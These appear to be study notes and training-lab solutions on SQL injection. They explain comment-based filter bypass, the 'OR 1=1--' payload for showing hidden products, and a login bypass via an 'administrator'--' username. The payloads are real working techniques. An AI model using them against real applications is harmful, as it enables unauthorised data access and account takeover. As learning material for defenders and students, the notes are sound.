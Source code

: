 `https://insecure-website.com/products?category=Gifts`

above link query database as follow to retrieve "Gifts" product. Backend SQL query for this...

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

*here * is for retrieve all info from products table whose category is 'Gifts' and released=1 show product is released, we can manipulate released=0 to see unreleased products.*

If application doesn't implement any defense against SQL injection attack, attacker may craft url :

`https://insecure-website.com/products?category=Gifts'--`

*SQL Query* : `SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`

"—" indicated comment so query after '— will be commented and will show all products from 'Gifts' category.

But if we want to retrieve all data from product table's any category columns, try :

 `https://insecure-website.com/products?category=Gifts'+OR+1=1--`

*SQL Query :* `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

- LAB Solution : Easy Cheezy
    
    In This application, our target is to retrieve all data of product category. Now in this lab click on any product.
    
    `https://xyz.web-security-academy.net/filter?category=Lifestyle`
    
    so for retrieve all product info including unreleased `'+OR+1=1--` payload will work. Append it after above URL as shown belove...
    
    `https://xyz.web-security-academy.net/filter?category=Lifestyle'+OR+1=1—`
    

---

### 2 . Subverting application logic :

where you can change a query to interfere with the application's logic.

Suppose application let user login with credential username : rat and password : cheese

*SQL Query :* `SELECT * FROM users WHERE uname='rat' AND passwd='cheese'`

if this query return user info or boolean TRUE only then user will be logged in.

attacker can login w/o password by using SQL comment sequence to remove password field from query

*SQL Query :* `SELECT * FROM users WHERE uname='admin'—' AND passwd=''`

- LAB Solution :
    
    In Description, username 'administrator' is given so to bypass login we can craft username field administrator'— and in password field 'xyz' (anything).
    
    *SQL Query :* `SELECT * FROM users WHERE username=' administrator'—' AND password='xyz'`
    

---
